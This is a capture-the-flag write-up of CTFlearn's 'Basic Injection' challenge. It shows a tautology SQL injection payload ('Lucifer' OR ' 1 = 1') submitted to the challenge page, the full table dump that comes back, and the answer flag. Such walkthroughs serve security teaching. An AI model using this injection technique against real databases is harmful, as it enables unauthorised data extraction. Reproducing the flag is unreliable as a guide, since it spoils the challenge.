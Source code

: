 <h1> Basic Injection </h1>

Problem Statement: <br><br>
See if you can leak the whole database using what you know about SQL Injections. <br><br>

Step-1: <br><br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it. <br><br>

Step-2: <br><br>
Inspect the input text box. <br><br>
You will find the line given below. <br><br>
<code> Try some names like Hiroki, Noah, Luke </code> <br><br>

Step-3: <br><br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br><br>
I submitted the input <code> Lucifer' OR ' 1 = 1 </code> and got the following output: <br><br>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</pre>

Step-4: <br><br>
The desired flag <code>CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
